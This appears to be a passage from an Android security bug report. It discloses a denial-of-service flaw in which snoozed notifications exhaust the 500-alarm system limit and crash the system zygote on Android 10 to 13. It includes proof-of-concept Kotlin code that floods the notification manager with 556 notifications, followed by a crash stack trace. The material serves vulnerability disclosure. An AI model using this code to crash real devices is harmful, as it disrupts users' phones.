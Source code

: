 Step 2: Post a large number of notifications over 500 (`MAX_ALARMS_PER_UID`).

```kotlin
private fun step2() {
    val name = "CrashBySnooze"
    val descriptionText = "For test crash."
    val importance = NotificationManager.IMPORTANCE_LOW
    val channel = NotificationChannel("crash_by_snooze", name, importance).apply {
        description = descriptionText
    }
    val ntfMgr = getSystemService(Context.NOTIFICATION_SERVICE) as NotificationManager
    ntfMgr.createNotificationChannel(channel)

    val ntfBuilder = NotificationCompat.Builder(applicationContext, "crash_by_snooze")
        .setContentTitle("CrashBySnooze")
        .setContentText("For test crash.")
        .setSmallIcon(R.mipmap.ic_launcher)
        .setPriority(NotificationCompat.PRIORITY_LOW)
    mainScope.launch(Dispatchers.IO) {
        val ntfBaseId = Random(System.currentTimeMillis()).nextInt(123456, 654321)
        for (i in 0..555) {
            ntfMgr.notify(ntfBaseId + i, ntfBuilder.build())
        }
    }
}
```

Daily use will not have so many notifications appear at once, but day by day, this is chronic death for your Android device.

#### Specify the build fingerprint from the device used to reproduce the issue. The issue should reproduce on a recent build (within the last 30 days).

> run adb shell getprop ro.build.fingerprint and adb shell cat /proc/version for kernel vulnerabilities

All devices based on Android 10+ (i.e. 10~13) have this vulnerability.

#### Provide a Proof of Concept, complete Android Studio project, source code including an Android.bp file, or similar artifacts.

> You can also include a malformed media file, or a video walkthrough for UX issues.

……

#### Provide crash artifacts including stack trace (if available).

The crash can cause system zyote to die:

```
2022-05-27 16:35:11.453 1451-1451/system_process W/AlarmManager: Maximum limit of concurrent alarms 500 reached for uid: 1000, callingPackage: android
2022-05-27 16:35:11.453 1451-1451/system_process E/Zygote: System zygote died with fatal exception
    java.lang.IllegalStateException: Maximum limit of concurrent alarms 500 reached for uid: 1000, callingPackage: android
        at com.android.server.alarm.AlarmManagerService.setImpl(AlarmManagerService.java:2087)
        at com.android.server.alarm.AlarmManagerService$5.set(AlarmManagerService.java:2630)
        at android.app.AlarmManager.setImpl(AlarmManager.java:957)
        at android.app.AlarmManager.setImpl(AlarmManager.java:917)
        at android.app.AlarmManager.setExactAndAllowWhileIdle(AlarmManager.java:1185)
        at com.android.server.notification.SnoozeHelper.lambda$scheduleRepostAtTime$2$SnoozeHelper(SnoozeHelper.java:508)
        at com.android.server.notification.SnoozeHelper$$ExternalSyntheticLambda4.run(Unknown Source:10)
        at com.android.server.notification.SnoozeHelper.scheduleRepostAtTime(SnoozeHelper.java:513)
```
